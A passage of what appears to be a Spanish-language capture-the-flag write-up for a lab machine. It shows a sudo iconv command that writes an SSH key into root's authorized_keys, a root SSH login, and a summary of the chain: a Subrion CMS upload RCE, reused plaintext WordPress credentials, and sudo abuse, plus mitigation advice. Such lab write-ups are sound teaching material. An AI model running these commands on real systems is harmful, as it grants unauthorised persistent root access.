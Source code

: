 Pegamos nuestra clave en la maquina victima

```bash
echo "ssh-rsa ________"  sudo iconv -f utf-8 -t utf-8 -o /root/.ssh/authorized_keys
```

- `iconv` se usa para **escribir archivos como root** debido a `sudo`.
- La clave pública se guarda en `/root/.ssh/authorized_keys`, permitiendo conexión SSH como `root`.
 * `-f utf-8 -t utf-8`: Conversión trivial (misma codificación)

## **Conexión SSH como Root**

Procedemos a intentar conectarnos por ssh.

```bash
(zikuta㉿zikuta)-[~/techsupport]
└─$ ssh -i ~/.ssh/id_rsa root@10.10.201.96         Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Sun Nov 21 11:17:57 2021
root@TechSupport:~# cat root.txt
```

Nos hemos conectado de forma exitosa como el usuario `root`.

# Conclusion


A lo largo de este proceso de ataque, comenzamos identificando y explotando una vulnerabilidad de ejecución remota de código (RCE) en Subrion CMS 4.2.1 (CVE-2018-19422) a través de su función de carga de archivos, lo que nos permitió obtener un acceso inicial como el usuario www-data y posteriormente mejorar a una shell interactiva usando Python.

Durante la fase de enumeración, descubrimos credenciales almacenadas en texto plano en el archivo wp-config.php de WordPress, las cuales fueron reutilizadas exitosamente para escalar privilegios al usuario scamsite mediante el comando su. 

Una vez como scamsite, el análisis de permisos sudo reveló la capacidad de ejecutar iconv como root sin contraseña, vector que aprovechamos para escribir nuestra clave SSH pública en el archivo authorized_keys de root, logrando así acceso persistente como superusuario. Este ataque demostró múltiples fallos de seguridad críticos: una aplicación web sin parches, almacenamiento inseguro de credenciales, reutilización de contraseñas, permisos sudo excesivamente permisivos y falta de monitoreo en directorios sensibles, vulnerabilidades que podrían mitigarse mediante actualizaciones periódicas, implementación de políticas de contraseñas robustas, restricción estricta de permisos sudo, configuración adecuada de controles de acceso y auditorías continuas del sistema, destacando la importancia de un enfoque de defensa en profundidad para proteger sistemas contra ataques multifásicos como el aquí documentado.
